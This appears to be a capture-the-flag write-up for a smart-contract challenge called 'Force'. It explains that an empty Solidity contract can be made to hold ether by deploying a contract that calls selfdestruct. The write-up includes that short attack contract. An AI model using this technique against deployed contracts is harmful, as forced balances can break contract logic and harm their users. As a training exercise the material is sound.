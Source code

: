# 07. Force

The goal of this level is to make the balance of the contract greater than zero.

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

## Vulnerability

There is nothing in this contract so there is no vulnerability...

You may try to send funds through your wallet or programatically with .call .send or .transfer but it will not work.
This contract hasn't got a single function, not even a fallback or receive one.

How to force a transfer ?

The only way is `selfdestruct` which will bypass any check and transfer the funds to the targetted address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceTransfer {
    
    constructor(address _targetContract) payable {
        selfdestruct(payable(_targetContract));
    }
    
}
```

Deploying the above contract with the target contract as parameter and setting a value to the deployement transaction will solve the challenge.
